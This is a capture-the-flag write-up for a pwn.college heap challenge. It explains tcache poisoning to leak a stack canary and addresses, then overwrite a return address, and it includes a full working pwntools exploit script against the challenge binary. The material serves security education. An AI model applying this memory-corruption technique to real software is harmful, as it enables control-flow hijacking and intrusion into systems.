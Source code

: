 ```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 10
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-06 13:00:12 +0300
tage: pwn.college stack-canary PIE ASLR heap house-of-force
---
```


## Information
- category: pwn


## Description 
> Leverage TCACHE exploits to gain control flow.

## Write-up

**Goal:** leak the stack canary, leak a stack address to bypass PIE, and finally overwrite a return frame (ret2win) to get the flag.

### Idea in one line
Abuse the tcache `next` pointer in a freed chunk header: overwrite it so the next `malloc` returns a pointer that points at the canary (and later to the stack). Use that read/write to leak the canary and stack, then craft a `scanf` payload to hijack control flow.

### 1. Redirect tcache `next` to the canary
- Allocate a chunk (call it `alloc[0]`) and then `free(0)`.
- After freeing, write into the freed chunk’s header to set the tcache `next` pointer (`next_ptr`) to the address of the stack canary.
- When the next `malloc` is issued, it will return a pointer that resolves to the canary address. Reading/printing that memory yields the canary value.

Pseudo:
```text
alloc(0)
free(0)
write_header_of_tcache_chunk(next_ptr = addr_of_canary)
malloc()    # returns pointer that points to canary
puts(0)     # leak canary
```
### 2. Overwrite return frame and trigger
- Use the write primitive again to make the next ```malloc``` return a pointer to a stack frame where you can place a forged return context.

```text
// layout on stack (conceptual)
[ padding... ]
[ canary (correct) ]
[ saved rbp ]
[ ret addr -> ret2win ]
```

## Exploit

```python
from pwn import *
elf = context.binary = ELF("/challenge/babyheap_level10.1")

offset_ret = 0x118
offset_canary = 0x108

def conn():
    global p
    p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def puts(idx):
    p.sendline(b"puts")
    p.sendline(idx)

def quit():
    p.sendline(b"quit")
    p.interactive()
def leak():
    p.recvuntil(b"allocations is at: ")
    stack = int(p.recvline().split(b".")[0],16)
    p.recvuntil(b"main is at: ")
    main = int(p.recvline().split(b".")[0],16)

    

    baself = main - elf.symbols['main']
    elf.address = baself

    malloc(b"0",b"0")
    malloc(b"1",b"0")

    free(b"1")
    free(b"0")

    scanf(b"0",p64(stack + offset_canary + 1))

    malloc(b"0",b"0")
    malloc(b"0",b"0")

    puts(b"0")

    p.recvuntil(b"Data: ")
    canary = u64(p.recvline().strip().rjust(8,b"\x00"))
    
    log.success(f"stack: {hex(stack)}")
    log.success(f"main: {hex(main)}")
    log.success(f"canary: {hex(canary)}")

    return canary,stack

def send_payload(stack,canary):
    
    malloc(b"0",b"0")
    malloc(b"1",b"0")
    
    free(b"1")
    free(b"0")

    scanf(b"0",p64(stack))

    malloc(b"0",b"0")
    malloc(b"0",b"0")

    payload = flat(
        b"A"*(offset_canary),
        canary,
        0,
        elf.symbols['win'] 
    )

    scanf(b"0",payload)

    quit()
      
def main():
    conn()
    canary,stack = leak()
    send_payload(stack,canary)

if __name__ == "__main__":
    main()
```